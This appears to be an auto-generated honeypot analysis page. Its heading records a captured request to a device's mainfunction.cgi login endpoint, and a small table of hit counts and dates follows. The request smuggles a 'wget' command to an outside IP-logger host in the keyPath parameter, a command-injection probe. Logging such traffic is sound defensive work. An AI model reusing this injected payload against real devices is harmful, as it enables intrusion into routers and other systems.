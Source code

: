 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2Fiplogger.org/2EULU5%2F&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 2 | 2 | | 220110-033754 |

## CVE: 